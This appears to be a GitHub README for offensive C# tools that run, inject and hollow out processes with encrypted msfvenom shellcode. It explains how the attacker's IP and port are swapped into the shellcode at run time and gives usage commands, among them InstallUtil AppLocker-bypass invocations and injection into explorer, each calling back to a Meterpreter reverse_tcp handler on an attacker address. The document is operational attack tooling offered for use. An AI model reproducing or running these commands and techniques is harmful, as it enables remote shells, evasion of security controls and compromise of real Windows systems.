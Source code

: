 ## [clrunner](./clrunner/clrunner.cs), [clinject](./clinject/clinject.cs) and [clhollow](./clhollow/clhollow.cs)

These are C# projects that have been modified in order to accept command line `Lhost`, `Lport`, and processes for targeting.  This allows a user to drop the payload on whatever target machine without worry of needing to re-roll shellcode if the attackers IP changes, or the payload needs to be pointed at a different machine in order to hit a tunnel and egress the network.

This was accomplished by using Msfvenom to create shellcode and then locating the IP and port that was specified in the msfvenom command within the output shellcode.  These bytes were replaced with unique identifier strings.  This process was accomplished with the [Port_ipeggs.py](./formatters/portip_eggs.py) script, which finds the hex bytes for the specified IP/PORT combo in a `msfvenom -f csharp` output file and replaces them with `0x11,0x11,0x11,0x11` and `0x22,0x22` respectively.  

This shellcode was then AES encrypted and placed in the C# project.  On run time, the shellcode is decrypted and then the IP and port given by the attacker is converted to hex and placed in the proper location wthin the decyrpted shellcode as marked by the unique identifer strings.

> TODO: Original author notes that `port_ipeggs.py` "Does not work with all payloads. Confirmed works with reverse_tcp, confirmed DOES NOT work with HTTPS". This could be why the HTTPs payloads in `/bins/` don't work. FIX.
> 
> Could also be related to the bug in the Meterpreter HTTPS payload a while back.

### clrunner Usage

C# project source code for (IP + Port) cli passed shellcode runner. Useful for when there are no processes that you can inject into or spoof PPIDs of (fairly often in initial access scenarios on servers). Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`.
> NOTE: The process you run it from will stall until you exit the shell, or kill the spawning process itself.
```bat
:: normal
clrunner.exe 192.168.1.198 53

:: installUtil AppLocker Bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /rhost=192.168.45.241 /rport=53 /U C:\Users\Administrator\Desktop\clrunner.exe
```

### clinject Usage

C# project source code for (IP + port + process) cli passed process injection payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`.
```bat
:: normal
clinject.exe 192.168.1.198 443 explorer

:: installUtil AppLocker Bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /rhost=192.168.45.241 /rport=53 /process=explorer /U C:\Users\Administrator\Desktop\clinject.exe
```
